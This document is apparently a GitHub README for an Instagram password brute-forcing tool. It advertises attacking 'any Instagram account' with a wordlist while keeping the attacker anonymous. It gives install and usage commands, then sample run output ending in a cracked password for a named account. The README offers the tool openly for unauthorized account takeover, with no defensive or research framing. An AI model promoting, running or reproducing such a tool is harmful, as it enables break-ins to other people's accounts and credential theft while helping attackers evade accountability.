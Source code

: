 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.


### Requirements

-   Python _v3.x.x_

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Run

```
[-] Wordlist: passwords.txt
[-] Username: cyberpredators
[-] Password: 452
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: cyberpredators
[-] Password: cyber234xuse
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: cyberpredators
[+] Password: cyber234xuse
```

